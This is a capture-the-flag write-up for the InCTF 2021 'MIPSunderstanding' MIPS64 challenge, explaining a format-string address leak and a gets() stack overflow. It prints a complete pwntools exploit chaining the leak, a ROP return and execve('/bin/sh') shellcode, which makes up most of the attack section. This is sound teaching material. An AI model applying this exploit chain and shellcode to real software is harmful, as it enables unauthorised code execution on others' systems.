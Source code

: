 ```yaml
---
title: InCTF Nationals 2021 MIPSunderstanding writeup
date: 01-10-2022 6:26 PM
tags:
- stack
- shellcode
- mips
---
```


![](https://i.imgur.com/qUtdCzM.png "MIPSunderstanding")

# Checksec

<div dangerouslySetInnerHTML={{ __html: `
<pre>    Arch:     mips64-64-little
    RELRO:    <font color="#FD5FF1">No RELRO</font>
    Stack:    <font color="#FD5FF1">No canary found</font>
    NX:       <font color="#87C38A">NX enabled</font>
    PIE:      <font color="#87C38A">PIE enabled</font>
    RWX:      <font color="#FD5FF1">Has RWX segments</font></pre>` }} />

# Overview

Challenge files : [](https://github.com/4n0nym4u5/CTF-Writeups/tree/main/MIPSunderstanding)[MIPSunderstanding](https://github.com/4n0nym4u5/CTF-Writeups/tree/main/MIPSunderstanding)

```yaml
chall: ELF 64-bit LSB pie executable, MIPS, MIPS-III version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

![](https://imgur.com/21z6F5S.png) I dont know mips assembly and i solved it without understanding mips :)) . It's an easy challenge. Lets open the binary in ghidra and analyse the binary. Well there's alot of junk code in it so ill straight up show you the `thiago` and `keita` function.

## keita

![](https://imgur.com/uhEsnyT.png)

## thiago

![](https://imgur.com/jcPHCE5.png)

So there are two bugs here.

1. Format string bug for Information disclosure bug. We control the first parameter passed to printf and we can use this bug to leak the address where the binary is being loaded and bypass ASLR. 
2. A stack buffer overflow bug because of using the gets function to read input.

Now lets dive into exploitation. But the most important part is to setup an debug environment for mips.

# Setting up the debug environment

I always use this template given by [X3eRo0](https://twitter.com/X3eRo0) to debug different arch pwn challenges

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit=b""
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io=remote("gc1.eng.run", "32113")
io.interactive()
```

so with this `expl.py` you can debug the pwn challenge easily.

![debug-setup](https://imgur.com/arvqUwR.png)
Also one more thing to mention here

```yaml
# gef checksec command inside qemu
gef➤  checksec
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

**NX is actually <span style={{ color: 'red' }}>disabled</span> inside qemu**. To enable NX they have to patch the qemu binary. Also use gdb-gef instead of pwndbg because pwndbg has alot of issues when it comes to weird architectures.

Lets start to build exploit.

# Exploit

1. Use the `keita` function to leak pie address
2. Use the `thiago` function to overflow the stack and return to your shellcode

```python expl.py https://raw.githubusercontent.com/4n0nym4u5/CTF-Writeups/main/MIPSunderstanding/exploit.py expl.py
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall', checksec=False)
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit="A"*512
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io = process(["./qemu-mips64el", exe.path])

reu(b"+---------------------------------------+\n")
reu(b"+---------------------------------------+\n")
sl(b"A")
sleep(5)
reu(b"Enter the price you are willing to offer !!\n")
sl(b"%1$p")
sleep(5)
main=int(GetInt()[0])-0x18240b4
exe.address = main-exe.sym.main
shellcode_addr=exe.address+0x1827d80+0x30
info(f"Pie base : {hex(exe.address)}")
info(f"Shellcode: {hex(shellcode_addr)}")
sl(b"1")
re()
sl(b"C")
padding=b"A"*32
rop = flat([
    padding,
    0xdeadbeef,
    exe.address+0x1827d80,
])
sleep(5)
re()
shellcode =  b""
shellcode += b"\x62\x69\x0c\x3c"
shellcode += b"\x2f\x2f\x8c\x35"
shellcode += b"\xf4\xff\xac\xaf"
shellcode += b"\x73\x68\x0d\x3c"
shellcode += b"\x6e\x2f\xad\x35"
shellcode += b"\xf8\xff\xad\xaf"
shellcode += b"\xfc\xff\xa0\xaf"
shellcode += b"\xf4\xff\xa4\x67"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xc1\x13\x02\x24"
shellcode += b"\x0c\x01\x01\x01"

# https://www.exploit-db.com/exploits/45287

sl(rop + b"\x00\x00\x00\x00"*32 + shellcode) # \x00\x00\x00\x00 is nops in mips64
reu(b"+---------------------------------------+\n")
sleep(5)
io.interactive()
```

[![asciicast](https://asciinema.org/a/461708.svg)](https://asciinema.org/a/461708)

> InCTF&#123;w3_sh4ll_not_b3_m0v3D_132244345&#125;
